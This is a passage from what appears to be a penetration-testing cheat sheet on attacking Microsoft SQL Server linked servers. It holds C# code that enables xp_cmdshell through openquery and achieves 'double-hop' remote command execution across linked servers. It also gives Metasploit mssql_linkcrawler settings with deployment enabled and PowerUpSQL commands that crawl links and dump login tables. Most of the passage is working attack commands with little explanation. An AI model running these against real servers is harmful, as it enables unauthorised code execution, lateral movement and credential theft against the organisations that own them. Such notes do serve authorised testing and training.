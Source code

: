 ```csharp
			sqlQuery("select 1 from openquery(\"SQLSRV02\", 'select 1; EXEC sp_configure ''show advanced options'',1; reconfigure; EXEC sp_configure ''xp_cmdshell'',1; reconfigure;');", con)
            sqlQuery("select 1 from openquery(\"SQLSRV02\", 'select 1; EXEC xp_cmdshell ''cmd /c ping -n 2 10.10.13.37'';');", con);

            // Double-hop RCE on the target server (SQLSRV01) from the linked server (SQLSRV02)
            sqlQuery("EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''',1; RECONFIGURE; EXEC sp_configure ''''xp_cmdshell'''',1; RECONFIGURE;'') AT [SQLSRV01];') AT [SQLSRV02];", con);
            sqlQuery("EXEC ('EXEC (''EXEC xp_cmdshell ''''cmd /c ping -n 2 10.10.13.37'''';'') AT [SQLSRV01];') AT [SQLSRV02];", con);

            con.Close();
        }
    }
}
```
{% endcode %}

Crawl links with MSF:

```
msf > use exploit/windows/mssql/mssql_linkcrawler
msf exploit(windows/mssql/mssql_linkcrawler) > set RHOSTS 192.168.1.11
msf exploit(windows/mssql/mssql_linkcrawler) > set USERNAME sa
msf exploit(windows/mssql/mssql_linkcrawler) > set PASSWORD Passw0rd!
msf exploit(windows/mssql/mssql_linkcrawler) > set DEPLOY true
msf exploit(windows/mssql/mssql_linkcrawler) > set VERBOSE true
msf exploit(windows/mssql/mssql_linkcrawler) > run
```

Crawl links with PowerUpSQL:

```
PS > Get-SQLInstanceDomain | Get-SQLConnectionTest
PS > Get-SQLServerInfo -Instance "sqlsrv01.megacorp.local,1433"
PS > Get-SQLQuery -Instance "sqlsrv01.megacorp.local,1433" -Query "select * from openquery(""sqlsrv02.megacorp.local"", 'select * from information_schema.tables')"
PS > Get-SQLServerLinkCrawl -Instance "sqlsrv01.megacorp.local,1433"
PS > Get-SQLServerLinkCrawl -Instance "sqlsrv01.megacorp.local,1433" -Query "SELECT * FROM master..syslogins" | ft
PS > Get-SQLServerLinkCrawl -Instance "sqlsrv01.megacorp.local\SQLEXPRESS" -Username sa -Password "Passw0rd!" -Query "SELECT name FROM master..sysdatabases"
```



### LDAP Enumeration via OpenQuery

- [https://keramas.github.io//2020/03/28/mssql-ad-enumeration2.html](https://keramas.github.io//2020/03/28/mssql-ad-enumeration2.html)




## External Scripts
